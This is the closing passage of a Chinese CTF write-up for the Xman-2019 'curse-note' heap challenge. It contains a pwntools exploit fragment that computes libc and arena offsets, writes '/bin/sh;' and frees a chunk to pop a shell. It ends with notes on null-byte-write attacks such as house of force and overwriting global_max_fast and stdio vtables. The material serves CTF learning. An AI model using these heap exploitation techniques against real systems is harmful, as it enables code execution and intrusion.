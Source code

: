 ```python
add(0,0x58,p64(ATM)*2)
AIM=0x7ffff7dd1b79-0x7ffff7a0d000+base
add(2,AIM,"B")
p.readuntil(":")
#p *(struct malloc_state *) 0x7ffff0000020
AIM=(base&0xffffffffff0000000)+0x1000000*4+0x8b0-heap-0x100-0x10
log.warning(hex(AIM))
add(2,AIM,"B")
free(0)
free(1)
AIM=(0x7ffff7dd37a8+base-0x7ffff7a0d000)-((base&0xffffffffff0000000)+0x1000000*4+0x8b0)-0x10
add(0,AIM,"/bin/sh;")
gdb.attach(p)
free(0)
p.interactive("n132>>")
```
# epilog
最近发现`OFF_BY_NULL_BYTE`知识点题目都出的差不多的现在流行任意地址一字节0了,同时感觉`sub_heap`会越来越多.毕竟现在主分配区heap都被玩的差不多了。
任意地址写0可能的攻击方法:
改写`main_arena topchunk`造成`house of force`
1. 如果没有subheap没有`malloc_size`的限制那么难度不大
2. 只有sub_heap感觉我上述的通过控制topchunk_size 来实现任意地址写的方法在有泄漏的时候还是比较好用的(没泄漏的话感觉直接GG...)
3. 只有`malloc_size`限制但是不是特别死(因为global_max_fast就在main_arena下方0x2000+左右)的时候感觉尝试控制`global_max_fast`之后控制stdxxx的虚表 感觉不失为一种好方法（未曾尝试过,如果有人想尝试失败了别来打我/狗头.jpg..）
猜测新的出题方向(瞎猜):
* 任意地址字节写0+size控制





[1]: https://n132.github.io/2019/05/28/2019-05-28-Null/#ARENA-c
[2]: https://github.com/n132/Watermalon/tree/master/Xman-2019/curse-note